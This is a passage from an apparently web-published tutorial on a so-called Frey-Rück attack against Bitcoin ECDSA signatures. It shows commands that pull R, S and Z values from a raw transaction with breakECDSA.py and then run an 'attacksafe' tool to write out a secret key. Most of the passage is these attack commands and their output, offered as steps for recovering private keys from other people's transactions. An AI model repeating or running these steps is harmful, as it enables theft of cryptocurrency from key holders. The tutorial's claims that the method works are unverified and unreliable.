 

<h2>Now we need to get all R, S, Z values ​​from all vulnerable transactions</h2>



<p>Let’s use the breakECDSA.py script</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 0100000001a48220a0fcc53f187abaaed77e1fb6e3fe870f2f77ecc26baf6ae2bb1cbbb3b2070000006b483045022015662ae61310e08fc132428277ae851378adc0b82ee3246d860a0a1d35755238022100c3f838aca7d8a74904f341dd2394616e72f470cfd371fb52d30da146606c2c3001210205ea35089d57f0282fab836217e5a702d8fa528cef078d60f523fec2ca9c2f50ffffffff010000000000000000046a02445300000000
</code></pre>



<figure class="wp-block-image"><img src="./Implement Frey-Rück Attack to get the secret key_K_NONCE_files/image-70-1024x268.png" alt="Implement Frey-Rück Attack to get the secret key &quot;K&quot; (NONCE)" class="wp-image-1030"></figure>



<pre class="wp-block-code"><code>R = 0x15662ae61310e08fc132428277ae851378adc0b82ee3246d860a0a1d35755238
S = 0xc3f838aca7d8a74904f341dd2394616e72f470cfd371fb52d30da146606c2c30
Z = 0x560177d0444e4271e144501d614bc8f564f320196b2c7c47922e7f8e6664d0bc</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity">



<p>To get the secret key from a vulnerable ECDSA signing transaction, let’s add the data&nbsp;<code>RawTX</code>to a text document and save it as a file<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>0100000001a48220a0fcc53f187abaaed77e1fb6e3fe870f2f77ecc26baf6ae2bb1cbbb3b2070000006b483045022015662ae61310e08fc132428277ae851378adc0b82ee3246d860a0a1d35755238022100c3f838aca7d8a74904f341dd2394616e72f470cfd371fb52d30da146606c2c3001210205ea35089d57f0282fab836217e5a702d8fa528cef078d60f523fec2ca9c2f50ffffffff010000000000000000046a02445300000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity">



<h2>Launch&nbsp;<code>-tool frey_ruck_attack</code>using software<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity">



<pre class="wp-block-code"><code>./attacksafe -tool frey_ruck_attack -open RawTX.txt -save SecretKey.txt</code></pre>



